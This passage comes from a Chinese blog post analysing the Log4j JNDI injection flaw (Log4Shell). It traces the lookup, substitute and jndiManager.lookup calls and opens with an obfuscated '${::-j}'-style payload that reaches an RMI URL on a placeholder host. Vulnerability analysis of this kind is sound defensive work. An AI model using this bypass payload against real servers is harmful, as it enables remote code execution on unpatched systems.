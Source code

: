 <span class="token variable">${${::-j}</span><span class="token variable">${::-n}</span><span class="token variable">${::-d}</span><span class="token variable">${::-i}</span><span class="token keyword">:</span><span class="token variable">${::-r}</span><span class="token variable">${::-m}</span><span class="token variable">${::-i}</span>://domain.com/j<span class="token punctuation">}</span>

</code></pre> 
 <p><img src="https://img-blog.csdnimg.cn/a4ab0f7f897f435087a5144dc17935ee.png" alt="在这里插入图片描述"></p> 
 <p><img src="https://img-blog.csdnimg.cn/64cfe705bd6a40d18d0336ccc52591a1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> 然后在匹配完后调用resolveVariable解析满足 Lookup 功能的语法 也就是这里调用的lookup去产生漏洞的</p> 
 <p>如支持的协议 即按照协议的语法去进行解析<br> date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j<br> 这里的作用是<br> 进行执行完lookup,然后将结果替换回原字符串后，再次调用 substitute 方法进行递归解析<br> <img src="https://img-blog.csdnimg.cn/30b0772e37464b88b25acec8ae0592ce.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt=""></p> 
 <p>⑥跟lookup方法：产生漏洞的核心原因<br> <img src="https://img-blog.csdnimg.cn/7ff0c11987524e7aac19d9871b600f49.png" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/5c39a355863243a886a58aaaa13953c9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> 然后接着跟<br> 发觉核心就两部分<br> ①判断前缀部分<br> ②调用执行部分即调用jndiManager.lookup解析请求,最终形成注入漏洞.<br> <img src="https://img-blog.csdnimg.cn/1e9a7a7d7e95488a9a95207bddd85106.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"></p> 

## 关于我

Brath是一个热爱技术的Java程序猿，公众号「InterviewCoder」定期分享有趣有料的精品原创文章！

![InterviewCoder](https://brath4.oss-cn-shenzhen.aliyuncs.com/picgo/%E4%BA%8C%E7%BB%B4%E7%A0%81plus.png)

非常感谢各位人才能看到这里，原创不易，文章如果有帮助可以关注、点赞、分享或评论，这都是对我的莫大支持！